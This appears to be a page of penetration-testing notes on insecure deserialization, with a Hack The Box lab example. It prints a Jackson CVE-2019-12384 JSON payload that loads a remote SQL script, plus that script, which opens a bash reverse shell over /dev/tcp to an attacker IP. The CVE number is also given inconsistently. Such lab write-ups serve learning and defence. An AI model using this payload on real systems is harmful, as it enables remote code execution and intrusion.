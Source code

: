 # Deserialization

Deserialization vulnerabilities occur when a website handles and decodes **unsanitised user-input** (like cookies), allowing for attackers to inject code. 

## Unserialize then Serialize

Here's a workflow diagram of how objects could be processed in a web application:

<figure><img src="../../.gitbook/assets/image (2597).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Suppose that a PHP website (that I have the source code to) checks for a `user_cookie` variable, and not present, it would call `serialize()` to create it. If present, it calls `unserialize()` to process it and check for variables like `usernames`.

This usage of `unserialize()` is dangerous since it allows for code execution if given a specific `user_cookie` value, allowing for attackers to send in malicious payloads to be deserialized.

Most of the time, the flaw comes from the general lack of understanding of how dangerous deserializing user-controllable data can be. Ideally, user input should **never be deserialized at all**.&#x20;

This kind of attack mainly leads to RCE or DoS conditions on a website.

## Example

The HTB machine, Time, has a deserialization in Java making use of CVE-2021-12384. The machine has a JSON beautifier web application.

<figure><img src="../../.gitbook/assets/image (2458).png" alt=""><figcaption></figcaption></figure>

If some non-JSON input is entered, it returns this error

<figure><img src="../../.gitbook/assets/image (1970).png" alt=""><figcaption></figcaption></figure>

So, the website uses Jackson to execute the function. Jackson is vulnerable to CVE-2019-12384 for this particular machine, which is an RCE exploit involving passing a specific JSON object for RCE:

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]
```

The payload above exploits SSRF and makes the machine send a request to an attacker-specified URL and run any SQL scripts downloaded. The script below executes a reverse shell:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
   String[] command = {"bash", "-c", cmd};
   java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
   return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"')
```